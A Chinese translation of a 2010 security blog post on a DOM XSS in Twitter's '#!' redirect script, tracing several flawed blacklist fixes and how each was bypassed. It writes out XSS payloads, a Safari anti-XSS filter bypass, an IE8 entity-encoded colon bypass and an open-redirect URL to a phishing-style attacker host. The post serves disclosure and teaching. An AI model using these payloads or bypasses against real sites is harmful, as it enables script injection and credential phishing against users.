 ```yaml
---
title: A Twitter DomXss, a wrong fix and something more
date: 
tags:
- 老文翻译
- domxss
- twitter
comments: true
categories: 老文翻译
---
```


## 一个推特的DOMXSS，它的一个错误的修复和一些其他的东西
*一个推特的DOM XSS*

推特的新站点似乎引入了一些问题，这些问题导致了可以被蠕虫利用的存储XSS。
他们也在页面中加入了一些新的JAVASCRIPT,我在html中搜索蠕虫的有效荷载时顺便发现了它们.  
代码如下： 

{% codeblock lang:javascript %}
//<![CDATA[
(function(g){var a=location.href.split("#!")[1];if(a){g.location=g.HBR=a;}})(window);
//]]>
{% endcodeblock %} 
   
<!-- more -->
   
*你发现问题出现在哪了吗？*

这行代码会在url中搜索"#!"，并将它之后的内容分配给window.location对象。这个问题现在存在twitter.com主站上（几乎？）每个页面上。
根据DOM xss wiki，location对象是被标记为危险的第一批对象之一，因为它既是source又是sink
事实上DOM BASED XSS会被这种简单的方式触发：   

```
http://twitter.com/#!javascript:alert(document.domain);   
```


就像下面截图中展示的那样
![TwitterXss1](TwitterXss1.jpg) 
非常简单并有效
在发现这个漏洞后，我给推特发了一封邮件去警告这个问题，但是它们并没有为蠕虫的传播而道歉
这种反应真的非常好笑，因为他们不能在存在antixss过滤器的safari浏览器上复现这个漏洞，即使这个漏洞非常的直接了当。
很明显我在所有的浏览器上检测了这个漏洞，但是safari，你们猜猜？
safari阻拦了这个漏洞！我们稍后再谈谈这个。
我告诉他们这个漏洞在 Firefox, Chrome 和Opera上可以触发之后，他们非常感谢我，并确认了这个漏洞的存在。之后就再也没有消息了。

*一个错误的修复（不如不替换）*
*Thanks Gaz for the title.*
在几个小时后，我发现了这个漏洞的修复
{% codeblock lang:javascript %}
var c = location.href.split("#!")[1];
if (c) {
    window.location = c.replace(":", "");
} else {
    return true;
}
{% endcodeblock %} 

*它有什么问题？*
1. 数据验证：'c'没有按照指示进行验证，那就意味着可以使用除了":"以外的任何字符。数据验证就是将每个可能输入集合限制为预期的子集。问题在于我们需要去只限制这一个字符吗？
2. 黑名单：众所周知，如果黑名单限制不够严格，就会导致绕过。
3. 没有对输出进行编码：由于位置分配调用了URL解析器，因此上下文是众所周知的，并且具有其自己的元字符和结构。URLParser上下文中的编码也称为URLEncoding。
4. 使用的替换：让我们看看文档（ECMA 规范）：

{% codeblock lang:javascript %}
[...]
String.prototype.replace (searchValue, replaceValue)
[...]
如果searchValue不是正则表达式，就会将searchString为ToString(searchValue)，并搜索首次出现searchString的字符串，同时令m为0.
[...]
{% endcodeblock %}

以上分析说明这是个错误的修复，事实上可以用两个':'来进行绕过  
{% codeblock %}
http://twitter.com/#!javascript::alert(document.domain);
{% endcodeblock %}
看看这'::'?  
这里的替换只删除了第一个':'，只要我们使用两个':'就可以绕过替换了  
还有一个缺点是绕过了包括safari在内的几个客户端过滤器  

所以我再次给推特写信：  
>嗨，那个修复不对！    
>{% codeblock lang:javascript %}
(function(g){var  
a=location.href.split("#!")[1];if(a){g.location=g.HBR=a.replace(":","");}})(window);{% endcodeblock %}
>这种修复无法抵御以下攻击:   
>{% codeblock %}
twitter.com/#!javascript::alert(1)  
{% endcodeblock %}
>看见那两个':'了吗？  
>我建议您对其进行urlencode  
>如果出现问题，请设置允许字符的白名单在将字符分配到loaction之前  
>另一个可行的修复：  
>location.pathname=a  
>或
>location.search=a
>这种修复让用户保持在相同的domain中（不确定它是否能在所有的浏览器上工作），但是我不知道这对于推特来说是否是可行的。  
>这并不是一个简单的任务，像往常一样 :) 
>...  
>并且请在这个修复起效后给我发邮件，因为我并不想去时不时检查漏洞有没有修复。  


今早我发现了如下的修复（没收到邮件）：
{% codeblock lang:javascript %}
(function(g){  
var a=location.href.split("#!")[1];  
if(a){  
g.location=g.HBR=a.replace(":","","g");  
}  
})(window);  
{% endcodeblock %}

这种修复解决了多":"的攻击，但是，恕我直言，这并没有真正的解决我先前说明的问题。  

*safari过滤器的突破（更重要的部分）*  

作为twitter dom xss的附带结果，我发现自己正在使用Safari anti Xss 过滤器存在一些问题。  
似乎它会尝试会在分配给laction的有效荷载与浏览器位置栏中的url中的值之间寻找匹配项。  
在经过一系列测试后了解了过滤器的行为，我发现它会对网址进行url编码，然后进行模式搜索  
问题就是因此产生的。  
事实上，由于"+"被替换为空字符：  
{% codeblock lang:javascript %}
twitter.com?#!javascript:1+alert(1)
{% endcodeblock %}   
变成了：  
{% codeblock lang:javascript %}
twitter.com?#!javascript:1 alert(1)
{% endcodeblock %}   
显然过滤器不会匹配：  
{% codeblock lang:javascript %}
"javascript:1+alert(1)" 
{% endcodeblock %}    
然后你就进行了过滤器的突破。  

Update (24/09/2010)  
twitter最终为第二个错误的修复设置了一个可行的补丁（看看注释）。  
{% codeblock lang:javascript %}
(function(g){var a=location.href.split("#!")[1];  
if(a){g.location=g.HBR=a.replace(/:/gi,"");}})(window);  
{% endcodeblock %} 
虽然它不是最好的，有一说一，它还是有用的….唔，直到它被突破。  
这个补丁仅仅修复了':'带来的问题，仍然遗留了一个可以进行任意重定向的漏洞  
{% codeblock %}
twitter.com#!//attacker.ltd/with/a/page/similar/to/twitterlogin/page  
{% endcodeblock %} 

Update (25/09/2010)

不出所料，有一个基于IE8的绕过（已公开）（约占26%的市场份额）  
我发现它在昨天被Gareth Heyes和usuke Hasegawa独立找到的，并报告给了twitter安全小组  
这个绕过利用了html中':'的实体符号代码 ```&#58;``` 或 ```&#x3a; ```   
IE8并不像其他浏览器一样，它会把找到的实体在分配给location对象后转换为原始值。  
```location="&x#58;"  ```
这将使浏览器转到':'而不是字面意义上的"```&x58;```"  
所以，当补丁尝试去替换':'为空时，它将不能识别到冒号。  
但是对loacation的分配会将其再次转换为冒号。  
```twitter.com#!javascript&x58;alert(1) ``` 
这种攻击代码仍然有效（它不在黑名单里面）  
最后，在写了一篇新的邮件给twitter安全小组后，他们使用了一个很好的防御性补丁：  
{% codeblock %}
(function(g){var a=location.href.split("#!")[1];if(a){window.location.  hash = "";g.location.pathname = g.HBR = a;}})(window);  
{% endcodeblock %} 

就像我在我的第一篇邮件里建议的那样。  
这个方案让分配在正确的属性（路径名）上执行  
因此可以在正确的上下文中对其进行解析，不会产生暴力绕过新的URI方案的情况。  
现在，一切*应该*一切都很好...好吧，如果所有浏览器的行为都正确！  